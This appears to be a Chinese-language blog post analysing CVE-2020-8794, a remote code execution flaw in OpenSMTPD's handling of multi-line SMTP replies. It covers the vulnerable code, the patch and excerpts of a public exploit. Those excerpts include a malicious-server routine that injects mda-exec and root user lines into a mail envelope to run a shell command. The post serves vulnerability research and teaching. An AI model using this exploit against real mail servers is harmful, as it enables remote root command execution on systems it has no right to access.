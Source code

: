 ```yaml
---

layout: post

title: 'CVE-2020-8794 OpenSMTPD RCE 分析'

date: '2020-07-20'

header-img: "img/home-bg.jpg"

tags:
     - vulnerablility analyze
author: 'De4dCr0w'

---
```


<!-- more -->



### 环境搭建

系统：

Ubuntu 19.04 

之前一直出现问题，就是系统版本的问题，由于系统版本低，OpenSMTPD比较新，很多依赖不兼容，编译也一直报错，浪费很多时间。

安装依赖：

```
sudo apt install automake libevent-dev libtool bison openssl-dev
sudo apt install libasr-dev
sudo apt install libz-dev
```

下载OpenSMTPD：

```
git clone https://github.com/OpenSMTPD/OpenSMTPD.git
cd OpenSMTPD
git checkout -b 748ff6830cba54dd2f6b008dc3d97f2a3a429a2f
```

安装OpenSMTPD

```
./bootstrap  
./configure
make
sudo make install
```

### 影响版本

OpenSMTPD <= 6.6.4

### 漏洞分析

SMTP 客户端连接到服务端时，可以发送EHLO、MAIL FROM、RCPT TO之类的指令，服务端会回复单行或多行

第一行为三个数字+‘-’+字符串，如"250-ENHANCEDSTATUSCODES"

最后一行为三个数字+‘ ’+字符串，如"250 HELP"

客户端多行回复在mta_io() 函数中实现。

漏洞代码：smtpd/mta_session.c:1101:mta_io(struct io *io, int evt, void *arg)

```c
static void
mta_io(struct io *io, int evt, void *arg)
{
        struct mta_session      *s = arg;
        char                    *line, *msg, *p;
        size_t                   len;
        const char              *error;
        int                      cont;
        ……
        case IO_DATAIN:
            nextline:
                line = io_getline(s->io, &len);
                if (line == NULL) {
                        if (io_datalen(s->io) >= LINE_MAX) {
                                mta_error(s, "Input too long");
                                mta_free(s);
                        }
                        return;
                }

                log_trace(TRACE_MTA, "mta: %p: <<< %s", s, line);

                if ((error = parse_smtp_response(line, len, &msg, &cont))) {
                        mta_error(s, "Bad response: %s", error);
                        mta_free(s);
                        return;
                }
        ……
            if (cont) { //表示还要继续读取
                        if (s->replybuf[0] == '\0')
                                (void)strlcat(s->replybuf, line, sizeof s->replybuf);
                        else {
                                line = line + 4;
                                if (isdigit((int)*line) && *(line + 1) == '.' &&
                                    isdigit((int)*line+2) && *(line + 3) == '.' &&
                                    isdigit((int)*line+4) && isspace((int)*(line + 5)))
                                        (void)strlcat(s->replybuf, line+5, sizeof s->replybuf);
                                else
                                        (void)strlcat(s->replybuf, line, sizeof s->replybuf);
                        }
                        goto nextline; //通过goto实现循环读取回复的行数
                }

                /* last line of a reply, check if we're on a continuation to parse out status and ESC.
                 * if we overflow reply buffer or are not on continuation, log entire last line.
                 */
      【1】          if (s->replybuf[0] != '\0') { //处理最后一行回复，此时cont为0了，表示这是最后一行了。
                        p = line + 4;
                        if (isdigit((int)*p) && *(p + 1) == '.' &&
                            isdigit((int)*p+2) && *(p + 3) == '.' &&
                            isdigit((int)*p+4) && isspace((int)*(p + 5)))
                                p += 5;
       【2】                 if (strlcat(s->replybuf, p, sizeof s->replybuf) >= sizeof s->replybuf)
                                (void)strlcpy(s->replybuf, line, sizeof s->replybuf);
                }

```

漏洞成因：

正常‘\n’表示一行结束，但是如果输入"xyz\nstring\0"作为最后一行，则p指针指向‘string\0’，将string拼接在s->replybuf，在【2】处，通过p指针访问string其实就是越界读了，因为正常‘xyz\n’ 表示最后一行，已经结束了，string字符串是最后一行之后的数据。

由于iobuf_getline里只处理了字符串的第一个'\n'，并将其替换成‘\0’,所以传入的是"xyz\nstring\0"，则string中‘\n’就会保留，就能在envelop中注入新的一行。如果传入的是正常的"123 string\n"，则在string中的换行就会被替换‘\0’，那么拼接到replybuf中就是string中到第一个换行的部分数据，不能注入到envelop。

所以该漏洞利用的关键点在于最后一行的第四个字符要为‘\n’，这样string中‘\n’才能保留并拼接到replybuf中。

漏洞利用：

（1）将回复的三个数字码替换成‘4yz’或‘5yz’，replybuf的内容就会被写入envelop中的“errorline”中

（2）envelope是以 ”field: data\n“ 的形式保存，因为越界的string 可以包含'\n'，所以能在envelop中注入新的一行，对OpenSMTPD进行攻击。

**Exp分析**

```
static struct {
    const char * command;
    const char * user;
    const char * dispatcher;
    const char * maildir;
    char lines[512];
} inject = {
    .command = "X=`mktemp /tmp/x.XXXXXX`&&id>>$X;exit 0",
    .user = "root",
    .dispatcher = "local_mail",
    .maildir = NULL,
};
```

```
const int len = snprintf(inject.lines, sizeof(inject.lines), //要注入到envelop中的数据
            "type:mda\nmda-exec:%s\ndispatcher:%s\nmda-user:%s",
            inject.command, inject.dispatcher, inject.user);
```

```
static void
server_session(const char * const inject_lines)
{
    const char * const error_code =
        (exploit == SERVER_SIDE_EXPLOIT) ? "421" : "553";

    server_accept();
    server_send("220 ent.of.line ESMTP\n");

    server_recv("EHLO ");
    server_send("250 ent.of.line Hello\n");

    server_recv("MAIL FROM:<");
    if ((strncmp(server_command, "MAIL FROM:<>", 12) == 0) !=
        (exploit == SERVER_SIDE_EXPLOIT)) die();

    if (inject_lines != NULL) {
        if (inject_lines[0] == '\0') die();
        if (inject_lines[0] == '\n') die();
        if (inject_lines[strlen(inject_lines)-1] == '\n') die();

        server_send("%s-Error\n", error_code); //通过错误码进行注入，
        server_send("%s\n\n%s%c", error_code, inject_lines, (int)'\0'); 
        //第一个'\n'用于iobuf_getline中'\n'转换成'\0'，第二个'\n'用于另起一行。

    } else {
        server_send("%s Error\n", error_code);

        server_recv("RSET");
        server_send("250 Reset\n");

        server_recv("QUIT");
        server_send("221 Bye\n");
    }
    server_close();
}
```



### 补丁分析

![img](..\image\2020-07-20-CVE-2020-8794-OpenSMTPD_RCE分析\1.png)

这里通过检测len的大小来避免越界读，因为len是通过iobuf_getline函数获得，表示遇到第一个'\r'或'\n'的长度。这样第四个字符为‘\n’ 时，长度为4，不能进入漏洞处。

### 参考链接

OpenSMTPD：

https://github.com/OpenSMTPD/OpenSMTPD

https://www.openwall.com/lists/oss-security/2020/02/26/1

https://cert.360.cn/warning/detail?id=5ed8d8cc121c223ac27d877f9e7b20b9

https://www.qualys.com/2020/02/24/cve-2020-8794/lpe-rce-opensmtpd-default-install.txt

https://www.qualys.com/2020/02/24/cve-2020-8794/lpe-rce-opensmtpd-default-install-exploit.c

https://www.freebuf.com/vuls/228494.html